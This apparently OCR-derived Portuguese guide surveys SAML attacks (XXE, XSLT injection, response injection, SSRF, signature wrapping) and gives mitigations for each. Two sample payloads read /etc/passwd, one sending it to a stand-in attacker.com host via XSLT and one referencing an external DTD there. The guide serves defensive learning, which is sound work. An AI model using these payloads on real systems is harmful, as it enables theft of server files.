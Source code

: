 ## Ataques de entidade externa XML (XXE)

   - Ataques de Entidade Externa XML (XXE) exploram vulnerabilidades em analisadores XML para injetar e processar entidades externas, levando à divulgação de informações ou negação de serviço.

   - Os invasores podem criar cargas XML maliciosas que enganam a implementação do SAML, fazendo-a aceder recursos não autorizados ou vazar informações confidenciais.

   - Mitigação: para proteger contra ataques XXE, desabilitar a resolução de entidades externas em analisadores XML, aplicar a validação de entrada e usar bibliotecas de processamento XML seguras.

  

Como as Respostas SAML são documentos XML que passam por deflação e codificação base64, é possível testar vulnerabilidades XXE manipulando o conteúdo XML dentro da Resposta SAML. Por exemplo, podemos modificar o documento XML enviado como a Resposta SAML para verificar potenciais explorações XXE. 
exemplo:
```xml
<? xml version="1.0" encoding="UTF-8"?>
<! DOCTYPE foo [
<! ELEMENT foo ANY >
<! ENTITY file SYSTEM "file:///etc/passwd">
<! ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
<samlp: Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2"
<saml : Issuer> ...< /saml : Issuer>
<ds : Signature ... >
<ds : SignedInfo>
<ds : CanonicalizationMethod
<ds : SignatureMethod
<ds : Reference URI="#_df55c0bb940c687810b36395cf81760bb2e6a92f2"> ...< /ds:Reference>
</ds: SignedInfo>
<ds : SignatureValue> ...< /ds: SignatureValue>
```


## Ataques XSLT

   - Ataques de injeção de XSLT (Extensible Stylesheet Language Transformations) ocorrem quando um invasor consegue manipular as transformações XSLT aplicadas às mensagens SAML.

   - Os invasores podem injetar código malicioso em folhas de estilo XSLT, levando a acesso não autorizado, vazamento de dados ou adulteração de asserções SAML.

   - Processadores XSLT vulneráveis ​​ou configurados incorretamente podem ser explorados para esses ataques.

   - Mitigação: Implementar técnicas adequadas de validação e sanitização de entrada para evitar a injeção de código XSLT malicioso. Utilizar processadores XSLT seguros e aplicar controlos de acesso rigorosos em recursos XSLT.

```xml
<ds: Signature xmlns : ds="http://www.w3.org/2000/09/xmldsig#">

<ds : Transforms>
<ds : Transform>
<xsl : stylesheet xmlns : xsl="http://www.w3.org/1999/XSL/Transform">
<xsl : template match="doc">
<xsl :variable name="file" select="unparsed-text('/etc/passwd' )"/>
<xsl:variable name="escaped" select="encode-for-uri($file)"/>
<xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
<xsl:variable name="exploitUrl" select="concat($attackerUrl, $escaped)"/>
<xsl: value-of select="unparsed-text($exploitUrl)"/>
</xsl : template>
</xsl : stylesheet>
</ds : Transform>
</ds : Transforms>
</ds: Signature>
```

## Ataques de injeção de resposta SAML

   - Ataques de injeção de resposta SAML permitem que invasores adulterem ou falsifiquem respostas SAML enviadas pelo Provedor de Identidade (IdP).

   - Ao modificar as respostas SAML, os invasores podem manipular atributos do utilizador, aumentar privilégios ou obter acesso não autorizado a recursos.

   - Mitigação: validar e higienizar a entrada, aplicar mapeamento rigoroso de atributos e implementar verificações de integridade nas respostas SAML para detetar e prevenir ataques de injeção de resposta.

## Falsificação de solicitação do lado do servidor SAML (SSRF)

   - A falsificação de solicitação do lado do servidor (SSRF) SAML ocorre quando um invasor manipula a mensagem SAML para fazer solicitações não autorizadas do Provedor de Serviços (SP) para servidores internos ou externos.

   - Ao explorar o SSRF, os invasores podem ignorar firewalls, aceder recursos internos ou realizar reconhecimento na infraestrutura de rede interna.

   - Mitigação: aplicar validação de entrada e filtragem para evitar URLs ou endereços IP maliciosos em mensagens SAML. Implementar controlo de acesso rigoroso baseado numa lista de permissões nos servidores com os quais o SP pode comunicar. Atualizar regularmente o software para corrigir vulnerabilidades SSRF conhecidas.



## Ataques de encapsulamento de assinatura XML (XSW)

- Ataques de XML Signature Wrapping (XSW) têm como alvo o processo de verificação de assinaturas XML em mensagens SAML.
- Ao manipular a estrutura da mensagem SAML, os invasores podem ignorar a validação da assinatura e modificar o conteúdo da mensagem sem invalidar a assinatura.
- Ataques XSW podem levar a acesso não autorizado, elevação de privilégios ou adulteração de asserções SAML.
- Mitigação: implementar validação rigorosa de assinatura XML, impor implementações SAML seguras e usar bibliotecas com proteção integrada contra ataques de encapsulamento de assinatura.

  
